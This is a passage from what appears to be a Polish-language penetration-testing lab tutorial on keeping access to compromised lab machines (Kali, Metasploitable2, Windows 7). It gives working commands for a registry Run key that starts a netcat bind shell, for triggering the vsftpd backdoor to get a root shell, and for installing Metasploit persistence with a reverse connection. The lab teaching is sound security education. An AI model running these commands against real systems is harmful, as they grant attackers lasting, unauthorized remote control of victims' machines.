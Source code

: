 1. `meterpreter > reg enumkey –k HKLM\\software\\microsoft\\windows\\currentversion\\run `
2. `meterpreter > reg setval -k HKLM\\software\\microsoft\\windows\\currentversion\\run -v netcat -d 'C:\WINDOWS\system32\nc.exe -ldp 6000 -e cmd.exe'`
3. `meterpreter > reg queryval -k HKLM\\software\\microsoft\\windows\\currentversion\\run -v netcat`

* Gdy wszystko poszło po naszej myśli, po restarcie maszyny powinniśmy mieć dostęp do niej za pomocą netcata:
`# nc –vn <IP> 6000`

## Ćwiczenie 2 – Backdoor
>**Zasoby:**
Kali Linux , metasploitable2

Skanujemy cel na porcie 21 w poszukiwaniu serwera FTP. W tym celu użyjemy nmap z przełącznikiem `–A` do wykrycia wersji usługi:
`# nmap –A –p21 <metasploitable2 IP>`
Sprawdzimy działanie za pomoca usługi telnet.
`# telnet <metasplotable2 IP> 21`
Po wyświetleniu banneru wpisujemy:
```
user me:)
pass eh...
^] (CTRL+])
quit
```
Backdoor powinien nasłuchiwać na porcie TCP 6200.
Łączymy sie za pomocą telnetu:
`# telnet <metasploitable2 IP> 6200`
W tym momencie możemy wykonywać polecenia jak root.
Należy pamiętac by każde polecenie kończyć znakiem `„;”`

## Ćwiczenie 3 – Metasploit persistence
>**Zasoby:**
Kali Linux , Win7

Do utrzymania dostępu możemy posłużyć się też pakietem metasploit w raz z modułem **persistence**. Moduł ten stworzy tymczasowy plik, server i usługę na naszym hoście-celu.
Posiada on szereg przydatnych funkcji takich jak, połączenie zwrotne w regularnych odstępach czasu , autouruchamianie i inne. By zobaczyć pełną listę opcji wystarczy wykonać:
`meterpreter > run persistence –h`
W celu założenia backdoora uruchamiamy moduł z odpowiadającymi nam parametrami.
`meterpreter > run persistence –A –S –U –p 4321 –r <IP>`
W tym przypadku moduł uruchamiamy następujące paramtery:
`-A` - Automatyczny start pasującego multi/handlera
`-S` - Automatyczny start agenta przy bootowaniu jako usługa
`-U` - Automatyczny start agenta przy logowaniu użytkownika
`-p` - Port
`-r` - IP zdalnego hosta

Jeśli wszystko poszło ok po uruchomieniu systemu powinna zostać nawiązana sesja.
